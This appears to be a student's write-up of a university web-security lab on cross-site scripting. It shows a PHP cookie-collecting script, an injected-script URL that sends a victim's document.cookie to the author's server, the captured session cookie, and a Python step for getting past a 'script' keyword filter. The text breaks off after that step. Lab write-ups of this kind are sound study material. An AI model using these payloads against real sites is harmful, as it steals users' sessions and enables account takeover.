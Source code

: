 Hence, what we can do is to give Meow server a legit url and trick it to visit this page. In this page, insert a script to send its cookie to our server.

First, on our server, write the following PHP code.

```php
// CookieEater.php

<?php

if (isset($_GET["cookie"])) {
  $cookie = $_GET["cookie"];
  file_put_contents("hello.txt", $cookie."\n", FILE_APPEND);
}

?>
```

Change the mode of the PHP file to be 644.

Construct a link as:

```
http://codered.cs.washington.edu/lab2/pmc/simple.php?url=<script>var img=new Image();img.src='https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie='%2Bdocument.cookie</script>
```

**Remember to write the '+' sign to be '%2B' because of URL encoding!**

Click the button to ask the Meow server to visit it.

Inside the `hello.txt` file, we can see:

```
$ > cat hello.txt 
authenticated=5285b3ba68908ba4df4bd0c29af537808b350abf
```

Go back to the original Meow server page and add the new cookie to get us authenticated.

Refresh the page and it's done.

### Problem 2

Notice that this time, the "script" keyword is replaced by the server to be "div".

One idea is that we can use image tag instead and convert the javascript code to an array of chars to convert it back and evaluate it.

The code we want to run is as follows:

```
var img=new Image();img.src='https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie='+document.cookie;
```

Use the following python code to convert it into an array of chars:

```python
s = "var img=new Image();img.src='https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie='+document.cookie;"
l = list(map(ord, s))
print(l)
```
